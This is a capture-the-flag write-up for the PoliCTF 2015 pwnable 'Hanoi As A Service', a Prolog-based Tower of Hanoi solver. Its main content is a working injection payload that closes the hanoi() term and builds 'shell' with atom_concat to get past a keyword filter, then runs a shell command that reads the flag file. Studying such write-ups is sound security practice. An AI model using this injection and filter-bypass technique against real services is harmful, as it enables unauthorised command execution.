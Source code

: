# PoliCTF 2015: Hanoi As A Service

**Category:** Pwnable
**Points:** 50
**Solves:** 191
**Description:**

> Check out our shiny new HaaS platform!
> nc haas.polictf.it 80

## Write-up

This pwnable is pretty simple, it seems to be a tower of hanoi solver. 
>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
> 3
> * Move top disk from a to b
> * Move top disk from a to c
> * Move top disk from b to c
> * Move top disk from a to b
> * Move top disk from c to a
> * Move top disk from c to b
> * Move top disk from a to b
>```

After messing around with it and looking up error codes, it seems to be using prolog which is a logical programming language.

>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
>)
>ERROR: Prolog initialisation failed:
>ERROR: Syntax error: Illegal start of term
>ERROR: hanoi()
>ERROR: ** here **
>ERROR: ) . 
>```

Also there is a filter that terminates the session if anything os related is sent. After looking around on prolog functions, it turns out you can concatenate two atoms and use the call function on the result to by pass the filter. 

>```bash
>% nc haas.polictf.it 80
>Welcome to the Hanoi-as-a-Service cloud platform!
>How many disks does your tower have?
>0), L = 'shel',K = 'l',atom_concat(L,K,M),call(M,'cat /home/ctf/haas/jhknsjdfhef_flag_here'), hanoi(0
>flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
>```

## Other write-ups and resources

* <http://www.mrt-prodz.com/blog/view/2015/07/polictf-2015---hanoi-as-a-service-50pts-writeup>
* <https://ctf-team.vulnhub.com/polictf-2015-hanoi-as-a-service/>
* <https://github.com/professormahi/CTF/blob/master/polictf-2015/Pwnable/HAAS/README.md>
* <http://b0rk.nl/ctf/2015/polictf/hanoi-as-a-service.html>
* <http://afnom.net/2015/07/12/HAAS.html>
* <http://nandynarwhals.org/2015/07/12/polictf-2015-hanoi-as-a-service-pwnable-50/> (down)
* <http://pequalsnp-team.github.io/writeups/hanoi/>
* <https://0x90r00t.com/2015/07/13/polictf-2015-pwn50-hanoi-as-a-service-write-up/>
* <http://fadec0d3.blogspot.de/2015/07/polictf-2015-hanoi-as-service-50.html>
* <http://fritzfs.blogspot.de/2015/07/writeup-haas-hanoi-as-service-polictf.html>
* <http://pastebin.com/0bnQ4V5g>
